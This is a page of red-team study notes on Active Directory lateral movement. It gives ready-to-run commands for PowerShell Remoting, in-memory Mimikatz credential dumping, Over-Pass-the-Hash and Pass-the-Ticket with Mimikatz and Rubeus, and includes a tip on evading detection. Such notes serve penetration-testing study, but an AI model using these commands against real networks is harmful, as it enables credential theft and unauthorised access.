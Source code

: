```yaml
---
title: Lateral Movement
category: Active Directory
order: 3
---
```


# PowerShell Remoting

Once a machine is compromised, we need to jump to others in order to find more valuable targets. For that task we can use `PowerShell Remoting` which is increasingly used in enterprises and enabled by default on Server 2012 onwards. PowerShell Remoting uses WinRM protocol, so you can check `evil-winrm` tool. Admin privileges on the target machineis needed.

> **Note**: Maybe you need to enable remoting `Enable-PSRemoting` on a Desktop windows machine and Admin privs are required.

You can get a elevated shell (`NT AUTHORITY\SYSTEM`) on the remote server if the credentials of the user administrator are used to authenticate (default setting).

## Using Credentials

We can use other credentials:
```
$user='WORKGROUP\User'; 
$pass='passwd';
$cred = (New-Object System.Management.Automation.PSCredential $user,(ConvertTo-SecureString $pass -AsPlainText -Force))
```
And use it with the parameter `-Credential`

> **Note**: If password is not declared a prompt will be shown in order to enter manually.

## Creating a Session

There are two types of PowerShell Remoting:

* **One-to-One**: It is interactively login to another machine. Create a new session on the target machine so runs in a new process (wsmprovhost). 

```powershell
Enter-PSSession -ComputerName machine01.corp.local
Enter-PSSession -ComputerName machine01.corp.local -Credential $cred
Enter-PSSession -ComputerName machine01.corp.local -Credential corp\user
```
We can also first create the session and append to it later.

```powershell
$sess = New-PSSession -ComputerName machine01.corp.local
Enter-PSSession -Session $sess
```
> **Note**: We can put a session in background if the session is stored in a variable. Very useful.


* **One-to-Many**: It is also known as Fan-out remoting. It is a non-interactive shell but we can execute commands parallely. Is useful to run commmands and scripts on multiple remote computers, in disconnected sessions and as a background job.

```powershell
Invoke-Command -ComputerName machine01.corp.local -ScriptBlock {whoami;hostname}
Invoke-Command -ComputerName (Get-Content .\servers.txt)
Invoke-Command -ComputerName machine01.corp.local -FilePath .\file.ps1
```
> **Note**: One of the best things in PowerShell to do PassTheHash, using credentials and executing commands on multiple remote computers.

> **RedTeam Note**: Since admin privs are needed is a useful tool to check if the user has admin privs on the target machine.

## Execute locally loaded funcitons on the remote machine

We can execute locally loaded function on the remote machine.

```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content .\servers.txt)
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ArgumentList "-List hello" -ComputerName (Get-Content .\servers.txt)
```
## Load a script remotely

we can load a script remotely.

```powershell
Invoke-Command -FilePath .\hello.ps1 -Session $sess
Enter-PSSession -Session $sess

[machine01.corp.local]: PS C:\> hello
Hello World!
```
## Execute "Stateful" commands

We can execute "Stateful" commands.

```powershell
$sess = New-PSSession -ComputerName server1
Invoke-Command -Session $sess -ScriptBlock {$proc = Get-Process}
Invoke-Command -Session $sess -ScriptBlock {$proc.Name}
```
## Transfering files

We can also transfer files with PSRemoting and `Copy-Item`
```
$sess = New-PSSession -ComputerName server1
Copy-Item C:\Windows\remote_file.txt C:\Windows\local_file.txt -FromSession $sess
Copy-Item C:\Windows\local_file.txt C:\Windows\remote_file.txt -ToSession $sess
```

# Dump credentials

Once we have administrator privileges on the target machine we can dump credentials with `Invoke-Mimikatz`. See this section:

[https://mvc1009.github.io/hackingnotes/post-exploitation/get-credentials/](/hackingnotes/post-exploitation/get-credentials/).

To avoid save mimikatz on disk we need to load remotely.

```powershell
Invoke-Command -FilePath .\Invoke-Mimikatz.ps1 -Session $sess
Invoke-Command -Session $sess -ScriptBlock {Invoke-Mimikatz -DumpCreds}
```
Or we can execute locally loaded functions.

```powershell
. .\Invoke-Mimikatz.ps1
Invoke-Command -Session $sess -ScriptBlock {function:Invoke-Mimikatz -DumpCreds}
```

# Over-Pass-the-Hash / Pass-The-Key

Abusing kerberos functionality we can execute commands as another user by only knowing the NTLM hash.

* Invoke-Mimikatz

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /usr:Administrator /domain:corp.local /ntlm:<ntlmhash> /run:powershell.exe"'
```

> **RedTeam Note**: There is a different in encryption type for timestamp between a normal `krb-as-req` and one using the Over-Pass-the-hash `krb-as-req`
> * Over-Pass-the-hash krb-as-req etype flag: `eTYPE-ARCFOUR-HMAC-MD5 (23)`
> * Normal krb-as-req etype flag: `eTYPE-AES256-CTS-HMAC-SHA1-96 (18)`
>
> To reduce the cahnces of detection use `aes256`, `aes128` and `NTLM(RC4)` together.

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:corp.local /aes256:<aes256> /aes128:<aes128> /ntlm:<ntlmhash> /run:powershell.exe"'
```

* Rubeus

```
.\Rubeus.exe asktgt /domain:dollarcorp.moneycorp.local /user:srvadmin /rc4:a98e18228819e8eec3dfa33cb68b0728 /ptt
```

# Pass-The-Ticket

We can use the tickets that are save to a `.kirbi` file. 

* Invoke-Mimikatz

```
Invoke-Mimikatz -Command '"kerberos::ptt ticket.kirbi"'
```

* Rubeus

```powershell
.\Rubeus.exe ptt /ticket:ticket.kirbi
```